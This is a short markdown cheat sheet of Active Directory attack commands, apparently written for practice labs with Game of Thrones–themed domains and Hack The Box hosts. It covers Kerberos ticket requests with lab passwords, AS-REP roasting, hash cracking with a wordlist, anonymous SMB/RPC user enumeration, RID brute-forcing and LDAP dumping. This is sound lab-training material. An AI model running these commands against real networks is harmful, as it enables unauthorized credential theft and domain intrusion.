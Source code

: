 # Test kerberos config 
## Get TGT 
### Note: sometimes fqdn doesn't work, just choose the hostname instead in these cases
```
getTGT.py essos.local/khal.drogo:horse
export KRB5CCNAME=khal.drogo.ccache 
GetADUsers.py -all -k  -no-pass  -dc-ip 10.10.11.187 flight.htb/svc_apache 
smbclient.py -k @braavos.essos.local
unset KRB5CCNAME

getTGT.py north.sevenkingdoms.local/arya.stark:Needle
export KRB5CCNAME=arya.stark.ccache
smbclient.py -k -no-pass @winterfell.north.sevenkingdoms.local
smbclient.py -k -no-pass @winterfell

python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py north.sevenkingdoms.local/ -usersfile users.north.sevenkingdoms.local.txt

john -w=/usr/share/wordlists/rockyou.txt brandon.stark.asrep_roasting.hash.txt

crackmapexec smb 192.168.56.11 --users
crackmapexec smb 192.168.56.11 --pass-pol

getTGT.py north.sevenkingdoms.local/brandon.stark:iseedeadpeople

export KRB5CCNAME=brandon.stark.ccache
```
# Enumerate DC’s anonymously
```
crackmapexec smb 192.168.56.10 --users
crackmapexec smb 192.168.56.11 --users
crackmapexec smb 192.168.56.12 --users

crackmapexec smb 192.168.56.10 -u '' -p '' --rid-brute

enum4linux 192.168.56.11

rpcclient -U "NORTH\\" 192.168.56.11 -N -c 'enumdomusers'

net rpc group members 'Domain Users' -W 'NORTH' -I '192.168.56.11' -U '%'
```

# Enumerate detailed human readable DC infos in grep, json and html
```
ldapdomaindump -u 'north.sevenkingdoms.local\brandon.stark' -p 'iseedeadpeople' 192.168.56.11
ldapdomaindump -u 'north.sevenkingdoms.local\brandon.stark' -p 'iseedeadpeople' ldaps://10.10.11.202:3269
```
